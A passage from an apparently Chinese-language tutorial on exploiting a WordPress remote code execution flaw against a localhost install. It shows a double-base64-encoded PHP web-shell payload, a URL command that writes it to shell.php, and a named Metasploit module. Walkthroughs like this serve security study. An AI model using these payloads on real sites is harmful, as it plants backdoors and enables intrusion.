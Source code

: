 ![payload encoded with a specific string](img/bd00fc2f40187969573349a86a0f7679.png)

最终我们得到了下面的字符串:`UEQ5d2FIQWdjR0Z6YzNSb2NuVW9KRjlIUlZSYk1GMHBPejgr`；然后，我们将编码的内容包含在 URL 中，并获得了以下字符串:

http://localhost/WordPress/index。PHP/2019/04/18/rce-38/？0= `echo UEQ5d2FIQWdjR0Z6YzNSb2NuVW9KRjlIUlZSYk1GMHBPejgr|base64 -d|base64 -d > shell.php`

新创建的后门可以直接从 WordPress 的根文件夹中调用。![root folder of Wordpress](img/4d909013a9a6da8dd653cc00be8ed428.png)

### **漏洞利用#2**

[Metasploit 模块](https://www.exploit-db.com/exploits/46662/)–`exploit/multi/http/wpcroprce`

Metasploit 模块很简单，需要凭据才能作为作者向 WordPress 的易受攻击实例进行身份验证。

设置阶段:

